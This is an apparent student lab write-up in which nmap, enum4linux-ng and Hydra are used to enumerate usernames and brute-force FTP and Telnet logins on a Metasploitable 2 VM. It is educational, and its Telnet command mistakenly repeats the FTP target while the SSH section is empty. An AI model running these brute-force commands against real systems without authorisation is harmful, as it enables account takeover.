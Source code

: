 # Lab 1: Cryptographic Attacks: Brute Force and Traffic Analysis on Network Protocols

## 🎯 Objective

1. Explore **vulnerabilities** in common network protocols (FTP, TELNET, SSH & HTTP).
3. Perform brute force attacks to recover passwords.
4. Use recovered credentials to sniff network traffic.
5. Analyze the security posture of each protocol.
6. Propose effective mitigation strategies.
---

## 🛠️ Requirement

| Tool               | Purpose                        |
|--------------------|--------------------------------|
| Kali Linux         | Attacker machine               |
| Metasploitable 2   | Target/vulnerable machine      |
| Wordlist           | Password brute-forcing         |
| Nmap               | Port scanning                  |
| Hydra              | Brute force tool               |
| Burp Suite         | HTTP interception & testing    |
| enum4linux-ng      |                                |
| Python3            |                                |

---

## 🔥 Pre-Heat
1. Performed a port scan using Nmap:
   ```
   nmap -sV -p 21,23,22,80 [target-ip]
   ```
   | Option              | Meaning                                                                                                         |
   |---------------------|-----------------------------------------------------------------------------------------------------------------|
   | `nmap`              | Runs the Nmap network scanner tool.                                                                               |
   | `-sV`               | **Service/version detection** — Nmap will try to determine what software and version is running on each open port.    |
   | `-p 21,23,22,80`    | Tells Nmap to scan **only** these specific ports: <br>• `21` = FTP <br>• `23` = Telnet <br>• `22` = SSH <br>• `80` = HTTP    |
   | `[target-ip]`       | Replace with the IP address of the target/vulnerable machine you are scanning.                                     |

   - Result:
     ![image](assets/nmap-result.png)
     > Here I only scan FTP(21), TELNET(23), SSH(22) and HTTP(80) port.

2. Create Python Virtual Enviroment:
   ```
   python3 -m venv crypto-Venv
   source crypto-Venv/bin/activate
   ```
3. Install enum4linux-ng:
   ```
      git clone https://github.com/cddmp/enum4linux-ng.git
      cd enum4linux-ng
      python3 -m pip install -r requirements.txt
   ```
---

## 🔍 Lab Tasks

### Task 1: Enumerate the Vulnerable VM to Discover Usernames

#### ✅ Objective:
- Identify potential usernames for brute force attacks.
---

#### 🚶‍♂️‍➡️ The Process:

1. Enumurate Username Using Enum4linux-ng:

   You may run this script like normal:
   ```
   python3 enum4linux-ng.py -A [target-ip]
   ```
   
   But my version will grep username only and append to username.txt. Useful for brute force tasks: 
   ```
   python3 enum4linux-ng.py -A [target-ip] | grep "username:" | sed 's/username: //' >> username.txt
   ```
   > Make sure run the script in enum4linux-ng directory   

   - Result:
      ```
      ┌──(crypto-Venv)─(adamriezqie㉿NWS23010043)-[~/enum4linux-ng]
      └─$ python3 enum4linux-ng.py -A 192.168.109.131 | grep "username:" | sed 's/username: //' >> username.txt

      ┌──(crypto-Venv)─(adamriezqie㉿NWS23010043)-[~/enum4linux-ng]
      └─$ cat username.txt 
        root
        daemon
        bin
        sys
        sync
        games
        man
        lp
        mail
        news
        uucp
        proxy
        www-data
        backup
        list
        irc
        gnats
        libuuid
        dhcp
        syslog
        klog
        sshd
        bind
        postfix
        ftp
        postgres
        mysql
        tomcat55
        distccd
        telnetd
        proftpd
        msfadmin
        user
        service
        nobody
      ```
      > Here I execute the script and filter the output to extract lines containing username:. Then, I strip the username: prefix and save the resulting usernames to a file named list.username.txt.
      
      **Potential usernames for brute force attacks:**
     
      ```
      ┌──(crypto-Venv)─(adamriezqie㉿NWS23010043)-[~/enum4linux-ng]
      └─$ cat potential-username.txt 
      root
      ftp
      postgres
      mysql
      tomcat55
      proftpd
      msfadmin
      user
      ```
      > Here, I narrowed down the list to potential usernames for brute force attacks. 

---

### Task 2: Perform Brute Force Attacks
   - For brute force attaks we need a two things:
        - potential-username.txt
        - password.txt

   - but how to get the password? There is many list online out there, but for this task we utilized ChatGPT for generate potential password based on the username:
        - [Password.txt](wordlist/password.txt)

   ---

#### 2.1: FTP, TELNET, and SSH

##### FTP:

For do brute force attack, I use Hydra:
   ```
      hydra -L potential-username.txt -P password.txt ftp://[target-ip]
   ```

   - Results:
     ![Image](assets/Hydra-bruteforce-FTP-result.png)

   ---
   
##### TELNET:

   ```
      hydra -L potential-username.txt -P password.txt ftp://[target-ip]
   ```
   - Results:
     ![Image](assets/Hydra-Bruteforce-Telnet-result.png)

   ---
   
##### SSH:

   ---
     
